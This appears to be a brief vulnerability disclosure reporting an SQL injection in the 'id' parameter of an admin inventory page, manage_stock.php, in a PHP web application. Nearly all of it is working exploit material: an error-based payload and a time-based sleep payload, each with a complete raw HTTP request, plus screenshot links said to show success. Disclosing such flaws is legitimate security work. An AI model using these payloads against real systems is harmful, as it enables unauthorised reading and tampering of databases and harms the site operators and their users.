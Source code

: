 BUG_Author:Gear-D

Vulnerability File: /oews/admin/inventory/manage_stock.php

GET parameter 'id' exists SQL injection vulnerability

Payload1:id=1' and (select 1 from(select count(*),concat(0x61626364,(select (elt(999=999,1))),0x75767778,floor(rand(0)*2))x from information_schema.plugins group by x)a)-- a

```
GET /oews/admin/inventory/manage_stock.php?id=1%27%20and%20(select%201%20from(select%20count(*),concat(0x61626364,(select%20(elt(999=999,1))),0x75767778,floor(rand(0)*2))x%20from%20information_schema.plugins%20group%20by%20x)a)--%20a HTTP/1.1
Host: localhost
sec-ch-ua: "Chromium";v="97", " Not;A Brand";v="99"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Windows"
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/97.0.4692.71 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: none
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9,zh-CN;q=0.8,zh;q=0.7
Cookie: revenue[LastUrl]=%2Frates%2Fadmin%2Fsystem_settingslist.php; PHPSESSID=k7m8rkajvoev3rcu6g7qup0660
Connection: close
```

Injection success based on errors

![image](https://github.com/Gear-D/bug_report/blob/main/sql1.png)

Payload2:id=1' and (select 1 from (select(sleep(5)))a)-- a

```
GET /oews/admin/inventory/manage_stock.php?id=1%27%20and%20(select%201%20from%20(select(sleep(5)))a)--%20a HTTP/1.1
Host: localhost
sec-ch-ua: "Chromium";v="97", " Not;A Brand";v="99"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Windows"
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/97.0.4692.71 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: none
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9,zh-CN;q=0.8,zh;q=0.7
Cookie: revenue[LastUrl]=%2Frates%2Fadmin%2Fsystem_settingslist.php; PHPSESSID=k7m8rkajvoev3rcu6g7qup0660
Connection: close
```

![image](https://github.com/Gear-D/bug_report/blob/main/sql2.png)
